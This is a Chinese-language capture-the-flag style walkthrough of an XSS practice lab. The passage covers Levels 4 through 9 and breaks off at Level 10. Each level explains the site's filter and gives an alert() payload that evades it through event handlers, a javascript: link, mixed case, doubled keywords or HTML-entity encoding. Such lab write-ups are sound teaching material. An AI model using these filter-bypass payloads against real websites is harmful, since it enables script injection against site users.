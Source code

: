 ```js
1' onclick=alert(/xss/) //
```

##### Level-4

和上一题一样可以通过事件触发，payload：

```js
" onclick=alert(/xss/) "
```

(也可以大小写绕过)

##### Level-5

查看源码发现```<script>```会被替换成```<scr_ipt>```,```on```会被替换成```o_n```，且无法绕过，不过发现a标签未被过滤，故通过a标签执行js代码。payload：

```js
"><a href=" javascript:alert(/xss/)"
```

(本题也可以大小写绕过)

##### Level-6

本题大小写绕过即可。payload：

```js
"> <sCript>alert(/xss/);</Script>
```

##### Level-7

这次全部替换为小写，但是却是将敏感的keyword替换成空字符，故可通过双写绕过，payload：

```js
"> <scscriptript>alert(/xss/);</scrscriptipt>
```

##### Level-8

这次转化为小写后替换成无法执行的内容，且过滤了双引号。可以通过html实体编码绕过，payload：

```js
&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;
//翻译过来就是：javascript:alert(1)
```

##### Level-9

查看源码发现可以从友情链接处入手(未被过滤)。但是要求带http://协议头(位置无限制)。payload：

```js
javascrip&#116;:alert(/xss/)// http://
```

##### Level-10

查看源码发现三个隐藏起来的input。发现t_sort可以利用，但是需要先将他调整为可见，才可以植入事件触发xss，payload：
